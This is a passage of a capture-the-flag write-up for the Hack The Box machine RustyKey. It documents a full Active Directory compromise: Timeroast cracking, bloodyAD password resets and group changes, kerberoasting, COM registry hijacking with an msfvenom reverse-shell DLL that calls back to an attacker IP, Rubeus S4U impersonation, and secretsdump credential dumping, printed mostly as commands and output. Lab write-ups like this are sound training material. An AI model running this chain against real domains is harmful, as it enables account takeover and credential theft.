    1121:$sntp-ms$0fe9b13cb02a6f6d5741fd95285c6be4$1c0111e900000000000a05e64c4f434cec15da3e97733226e1b8428bffbfcd0aec15e20617731098ec15e20617734648
    1120:$sntp-ms$b7b2d2625ff186d0b597494cbb3d5fef$1c0111e900000000000a05e64c4f434cec15da3e97515a65e1b8428bffbfcd0aec15e20617513221ec15e206175171e2
    1122:$sntp-ms$2e26fe0be6a540fe01d3c73dfdd69de2$1c0111e900000000000a05e64c4f434cec15da3e977a2489e1b8428bffbfcd0aec15e206177a02fbec15e206177a3550
    1123:$sntp-ms$517535e59f8d2b8b9016d0a2786198a9$1c0111e900000000000a05e64c4f434cec15da3e97c02cabe1b8428bffbfcd0aec15e20617c00ccaec15e20617c03bc4
    1124:$sntp-ms$d3531b1edd859379f5d105e5895d21f1$1c0111e900000000000a05e64c4f434cec15da3e944e12b2e1b8428bffbfcd0aec15e206182503c5ec15e20618252db6
    1125:$sntp-ms$4ff1451caf60d9d05efdbd1b0748751b$1c0111e900000000000a05e64c4f434cec15da3e9651d5b5e1b8428bffbfcd0aec15e2061a289621ec15e2061a2904dc
    1126:$sntp-ms$7e4e913d40d0be676c8bf5c35610f149$1c0111e900000000000a05e64c4f434cec15da3e9652fcfde1b8428bffbfcd0aec15e2061a29e0a4ec15e2061a2a19ae
    1127:$sntp-ms$84cdba7964a96d8f5fc9e492eb9f3d3c$1c0111e900000000000a05e64c4f434cec15da3e967d607de1b8428bffbfcd0aec15e2061a5440c9ec15e2061a547edd


```python
!python Timeroast/extra-scripts/timecrack.py timeroast.crack bigwords.txt 
```

    [+] Cracked RID 1125 password: Rusty88!
    
    1 passwords recovered.


It's worth noting there that the newest version of hashcat can crack this wayyyy faster. Also by looking up the RID of the account we're interested in, we can cut down a lot of waiting.


```python
!echo "Rusty88!" | KRB5_CONFIG=./krb5.conf KRB5CCNAME='./it-computer3.ccache' kinit it-computer3$
```

    Password for it-computer3$@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled


A note about "[Protected Users](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#protected-users)": These are effectively accounts that do not allow NTLM, nor do they obey the default configurations for kerberos TTL and kerberos ciphers. If we want to authenticate using anyone at all, we're going to need to remove them from this group.

At this point I'm finally using kerbrute witha  password list I'm maintaining locally. I'm spending a lot of time working through "what can dd.ali do" but it's all unnecessary because it-computer can do everything we actually need. This may be unintentional as I think it's intended for bb.morgan to do some work and maybe use dd.ali as a pivot for the impersonation, but whatever.

```sh
bloodyAD --host dc.rustykey.htb -d rustykey.htb -k add groupMember "HelpDesk" 'IT-Computer3$'
[+] IT-Computer3$ added to HelpDesk

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
[+] Password changed successfully!

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password gg.anderson Password1234!
[+] Password changed successfully!

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password dd.ali Password1234!
[+] Password changed successfully!

KRB5CCNAME=./dd.ali.ccache kinit dd.ali

KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set object dd.ali servicePrincipalName -v http/fakeservice
[+] dd.ali's servicePrincipalName has been updated

 kerbrute -domain rustykey.htb -users users.txt -passwords bigwords.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Valid user => Administrator
[*] Blocked/Disabled user => Guest
[*] Blocked/Disabled user => krbtgt
[*] Stupendous => rr.parker:8#t5HE8L!W3A
[*] Saved TGT in rr.parker.ccache
[*] Valid user => mm.turner
[*] Blocked/Disabled user => gg.anderson
[*] Valid user => dd.ali
[*] Valid user => nn.marcos
[*] Valid user => backupadmin
[*] Stupendous => dd.ali:Password1234!
[*] Saved TGT in dd.ali.ccache

Again this is something where I'm trying to break through dd.ali's account, but it's not actually necessary. I'll leave this here as an example of targeted kerberoasting though.

```sh
KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set object dd.ali servicePrincipalName -v http/fakeservice
[+] dd.ali's servicePrincipalName has been updated

 ./targetedKerberoast.py -k --no-pass --dc-host dc.rustykey.htb -d rustykey.htb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (dd.ali)
$krb5tgs$23$*dd.ali$RUSTYKEY.HTB$rustykey.htb/dd.ali*$9cdf790d716a4e9f058184979a3c94d8$6c84df1ab924b36451c44f19b3fb26cc01a99e<snip>8a651ae5a691ea3f40682a3e517681d2ea3c8da767d7079af07f8e887f33118f175ee9abcb5696da8d1c83ef29b1b47d409f86a146f21b72fc735a5
```

With the password reset, I still couldn't get in. I did learn that KRB5_TRACE exists and gives super helpful information, but I still hadn't set the encryption types in krb5 from before. If you've followed along and copied my initial krb5.conf, you wont' have this problem.

```sh
KRB5_TRACE=/dev/stdout KRB5CCNAME=./bb.morgan.ccache KRB5_CONFIG=./krb5.secure.conf kinit bb.morgan
[345378] 1751365804.563526: Getting initial credentials for bb.morgan@RUSTYKEY.HTB
[345378] 1751365804.563528: Sending unauthenticated request
[345378] 1751365804.563529: Sending request (166 bytes) to RUSTYKEY.HTB
[345378] 1751365804.563530: Resolving hostname dc.rustykey.htb
[345378] 1751365804.563531: Sending initial UDP request to dgram 10.129.232.127:88
[345378] 1751365804.563532: Received answer (137 bytes) from dgram 10.129.232.127:88
[345378] 1751365804.563533: Sending DNS URI query for _kerberos.RUSTYKEY.HTB.
[345378] 1751365804.563534: No URI records found
[345378] 1751365804.563535: Sending DNS SRV query for _kerberos-master._udp.RUSTYKEY.HTB.
[345378] 1751365804.563536: Sending DNS SRV query for _kerberos-master._tcp.RUSTYKEY.HTB.
[345378] 1751365804.563537: No SRV records found
[345378] 1751365804.563538: Response was not from primary KDC
[345378] 1751365804.563539: Received error from KDC: -1765328370/KDC has no support for encryption type
[345378] 1751365804.563540: Retrying AS request with primary KDC
[345378] 1751365804.563541: Getting initial credentials for bb.morgan@RUSTYKEY.HTB
[345378] 1751365804.563543: Sending unauthenticated request
[345378] 1751365804.563544: Sending request (166 bytes) to RUSTYKEY.HTB (primary)
[345378] 1751365804.563545: Sending DNS URI query for _kerberos.RUSTYKEY.HTB.
[345378] 1751365804.563546: No URI records found
[345378] 1751365804.563547: Sending DNS SRV query for _kerberos-master._udp.RUSTYKEY.HTB.
[345378] 1751365804.563548: Sending DNS SRV query for _kerberos-master._tcp.RUSTYKEY.HTB.
[345378] 1751365804.563549: No SRV records found
kinit: KDC has no support for encryption type while getting initial credentials
```

At some point my friend just tried removing members from Protected Objects and was able to do it, no questions asked. So we'll just go forth and give ourselves access to the box.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k add groupMember "HelpDesk" 'IT-Computer3$'
```

    [+] IT-Computer3$ added to HelpDesk


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
```

    Traceback (most recent call last):
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/bin/.bloodyAD-wrapped", line 9, in <module>
        sys.exit(main())
                 ^^^^^^
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/main.py", line 144, in main
        output = args.func(conn, **params)
                 ^^^^^^^^^^^^^^^^^^^^^^^^^
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/cli_modules/set.py", line 241, in password
        raise e
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/cli_modules/set.py", line 86, in password
        conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
      File "/nix/store/y4wr501qlmky4cnspm8ha88xhv7ajlgw-python3.12-bloodyad-2.0.8/lib/python3.12/site-packages/bloodyAD/network/ldap.py", line 217, in bloodymodify
        raise err
    msldap.commons.exceptions.LDAPModifyException: Password can't be changed. It may be because the oldpass provided is not valid.
    You can try to use another password change protocol such as smbpasswd, server error may be more explicit.


This part was SUPER confusing. It wasn't until I REDID the kinit that this step could be performed.


```python
!echo "Rusty88!" | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache kinit it-computer3$
```

    Password for it-computer3$@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
```

    [+] Password changed successfully!


Somewhere I read that kerberos keys will be generated based on the configured encryption cipher defined at the time of the password set. So to this end, I want to remove the user from the protected groups BEFORE I reset the password so I can guarantee somewhat that a lower-level cipher is used that I might have access to since the defaults, again, don't seem to work for me.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k remove groupMember "Protected Objects" 'Support'
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k remove groupMember "Protected Objects" 'IT'
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password ee.reed Password1234!
```

    [-] Support removed from Protected Objects
    [-] IT removed from Protected Objects
    [+] Password changed successfully!
    [+] Password changed successfully!


Now we can log in.

```sh
KRB5CCNAME=./bb.morgan.ccache evil-winrm -i dc.rustykey.htb --realm=RUSTYKEY.HTB
```

## Foothold

```sh
*Evil-WinRM* PS C:\Windows\Temp> ls ~/Desktop


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---         7/6/2025  10:32 PM             34 user.txt
```

Along with the flag on Desktop, we see this memo from bb.morgan. It explicitly references "Context Menu Actions" and "extended access has been granted" for "registry-level adjustments". Also it mentions that "This is to streamline... reported BY Finance and IT." which implies that `Support` is the group that will have the permissions to help these other groups. So ee.reed will be our target. In any windows system, we can modify the right-click menus and explorer.exe behaviors by tweaking some settings in the registry, so this is going to be the focus of our attention for several days.
```
        Internal Memo
        From: bb.morgan@rustykey.htb
        To: support-team@rustykey.htb
        Subject: Support Group - Archiving Tool Access
        Date: Mon, 10 Mar 2025 14:35:18 +0100
        Hey team,
        As part of the new Support utilities rollout, extended access has been temporarily granted to allow
        testing and troubleshooting of file archiving features across shared workstations.
        This is mainly to help streamline ticket resolution related to extraction/compression issues reported
        by the Finance and IT teams. Some newer systems handle context menu actions differently, so
        registry-level adjustments are expected during this phase.
        A few notes:
        - Please avoid making unrelated changes to system components while this access is active.
        - This permission change is logged and will be rolled back once the archiving utility is confirmed
        stable in all environments.
        - Let DevOps know if you encounter access errors or missing shell actions.
        Thanks,
        BB Morgan
        IT Department
        Page 1
```

I'm going to spend a lot of time myself iterating through properties of the registry. It's been a long time since I've touched it, so many scripts will be vibecoded to this end. I'll leave some here for the more interesting ones.

Something to try to dump the whole registry. These thigns are huge. This was a terrible idea. Just use reg query. Toku wtf are you doing.

```powershell
foreach ($hive in 'HKLM','HKCU','HKCR','HKU','HKCC') { Get-ChildItem -Path "${hive}:\\" -Recurse -ErrorAction SilentlyContinue | ForEach-Object { try { Get-ItemProperty -Path $_.PSPath -ErrorAction Stop | Select-Object @{n='Hive';e={$hive}}, @{n='Key';e={$_.PSParentPath}}, @{n='Value';e={$_.PSChildName}}, * } catch {} } | Export-Csv -Append -NoTypeInformation -Path ".\${hive}_regdump.csv" }
```

At some point I got the hint. After querying for 7-zip and various permutations, i found the keys that I was looking for that relate to the context menus. Using this I found I was even able to write to these keys explicitly, where I couldn't do this on any other key. Pretty sure this is the right vector then.

To this end, I'll generate some dlls to use for triggering a reverse shell.

```powershell
reg query HKLM /f 7-zip32.dll /t REG_SZ /s

PS C:\Windows> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32' -Name '(default)' -Value 'C:\Windows\Temp\7zip.dll'
PS C:\Windows> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Classes\WOW6432Node\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32' -Name '(default)' -Value 'C:\Windows\Temp\7zip.dll'

reg query HKLM /f {23170F69-40C1-278A-1000-000100020000} /s
```

The reverse shell I'll be using:


```python
!msfvenom -p windows/x64/shell/reverse_tcp lport=9999 lhost=10.10.14.81 -f dll > 7zip.dll
```

    Source locally installed gems is ignoring #<Bundler::StubSpecification name=rbs version=3.4.0 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=racc version=1.7.3 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=debug version=1.9.2 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=rbs version=3.4.0 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=racc version=1.7.3 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=debug version=1.9.2 platform=ruby> because it is missing extensions
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of dll file: 9216 bytes


Something I learned as well, different payloads are built differently (to no one's surprise). But some such differences that are meaningful include the way the shell is spawned. In the case of shell/reverse_tcp (as opposed to shell/meterpreter/reverse_tcp), a child is forked and then orphaned. So when the shell is spawned, it won't die as soon as explorer.exe is killed as is the case in this exercise.

It's worth noting here, that the access to the registry is only for IT. And looking back at Bloodhound for our next target to know what we're trying to get to with our new credentials, we'll find that mm.turner is whom we're hoping we can get. Based on the fact that their login count is in the many thousands as I enumerated LDAP, it's safe to say there's likely a login by mm.turner happening frequently, so hopefully injecting a DLL into a process that will hopefully spawn with every login can be a viable way to take over the account.



Using ee.reed and RunasCs, we can pass our key edits with our reverse shell binary to be triggered when explorer.exe is opened.

```sh
./RunasCs.exe ee.reed 'Password1234!' 'reg add "HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\7zip.dll" /f'
./RunasCs.exe ee.reed 'Password1234!' 'reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\7zip.dll" /f'
```

And after waiting a minute, we'll eventually get a shell

> Note: I found that once I used a port to reverse shell back, that port was burned. I needed to generate a new payload to phone back to a new port each time.

```sh
[*] Started reverse TCP handler on 10.10.14.81:9999 
[*] Sending stage (336 bytes) to 10.129.26.114
[*] Command shell session 1 opened (10.10.14.81:9999 -> 10.129.26.114:54854) at 2025-07-06 23:45:36 -0700


Shell Banner:
Microsoft Windows [Version 10.0.17763.7434]
-----
          

C:\Windows>whoami
whoami
rustykey\mm.turner
```

With mm.turner's credentials, in our new reverse shell, we're going to load up PowerView.ps1 and ActiveDirectory modules for good measure. From here we're going to update the principal delegate, create the delegation ticket, then use the delegated ticket to impersonate backupadmin
```sh
# Add the ability to delegate to it-computer3
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount it-computer3$

# Generate the hash we'll need to create tickets as it-computer3
PS C:\Windows> C:\Windows\Temp\Rubeus.exe hash /password:Rusty88!

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 


[*] Action: Calculate Password Hash(es)

[*] Input password             : Rusty88!
[*]       rc4_hmac             : B52B582F02F8C0CD6320CD5EAB36D9C6

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

# Use the hash to generate our ticket with delegation from that user, as mm.turner who has access to set the principal
PS C:\Windows> C:\Windows\Temp\Rubeus.exe tgtdeleg /user:it-computer3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /domain:rustykey.htb /domaincontroller:dc.rustykey.htb /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc.rustykey.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: rc4_hmac
[*] Extracted the service ticket session key from the ticket cache: yMerBMOlnsWJf7CxhFDAaA==
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFkDCCBYygAwIBBaEDAgEWooIEpDCCBKBhggScMIIEmKADAgEFoQ4bDFJVU1RZS0VZLk<snip>wNjU1MTVaqA4bDFJVU1RZS0VZLkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMUlVTVFlLRVkuSFRC

# And finally s4u proxy auth all of ti together to generate our final impersonation ticket
PS C:\Windows> 
C:\Windows\Temp\Rubeus.exe s4u /user:it-computer3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /impersonateuser:backupadmin /msdsspn:cifs/dc.rustykey.htb /domain:rustykey.htb /dc:dc.rustykey.htb /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 

[*] Action: S4U

[*] Using rc4_hmac hash: B52B582F02F8C0CD6320CD5EAB36D9C6
[*] Building AS-REQ (w/ preauth) for: 'rustykey.htb\it-computer3$'
[*] Using domain controller: fe80::e5b9:1d07:4258:53f5%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmDCCBZSgAwIBBaEDAgEWooIEqDCCBKRhggSgMIIEnKADAgEFoQ4bD<snip>hsGa3JidGd0GwxydXN0eWtleS5odGI=


[*] Action: S4U

[*] Building S4U2self request for: 'it-computer3$@RUSTYKEY.HTB'
[*] Using domain controller: dc.rustykey.htb (fe80::e5b9:1d07:4258:53f5%11)
[*] Sending S4U2self request to fe80::e5b9:1d07:4258:53f5%11:88
[+] S4U2self success!
[*] Got a TGS for 'backupadmin' to 'it-computer3$@RUSTYKEY.HTB'
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEzzCCBMth<snip>aqA4bDFJVU1RZS0VZLkhUQqkaMBigAwIBAaERMA8bDWl0LWNvbXB1dGVyMyQ=

[*] Impersonating user 'backupadmin' to target SPN 'cifs/dc.rustykey.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.rustykey.htb'
[*] Using domain controller: dc.rustykey.htb (fe80::e5b9:1d07:4258:53f5%11)
[*] Sending S4U2proxy request to domain controller fe80::e5b9:1d07:4258:53f5%11:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.rustykey.htb':

      doIGfjCCBnqgAwIBBaEDAgEWooIFjzCCBY<snip>0VZLkhUQqkiMCCgAwIBAqEZMBcbBGNpZnMbD2RjLnJ1c3R5a2V5Lmh0Yg==
```

Using that ticket, we can use secretsdump remotely with the kirbi ticket `ticketConverter.py` to ccache.

```sh
 KRB5CCNAME=./misc.ccache secretsdump.py -k -no-pass dc.rustykey.htb

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesnt have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c<snip>b4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword 
RUSTYKEY\Administrator:<snip>
```

And using the cracked password from secretsdump, or any million other way to get admin credentials/tickets with a domain admin:

Using more Runas for example, to spawn another reverse shell
```sh
./RunasCs.exe administrator '<snip>' 'C:\Windows\Temp\shell.exe'
PS C:\Windows\system32> whoami
whoami
rustykey\administrator
PS C:\Windows\system32> type ~/desktop/root.txt
type ~/desktop/root.txt
7009df001bb824b882b95d11b600ffaf
```

Or using psexec.py with the ccache:
```sh
 KRB5CCNAME=./admin.ccache psexec.py dc.rustykey.htb -k -no-pass
C:\Windows\Temp> whoami
nt authority\system
```

Finally the bloodhound review is as such:  

  
  

And because of a cron loading a session for mm.turner every minute, we can takeover the account and set this up:

  

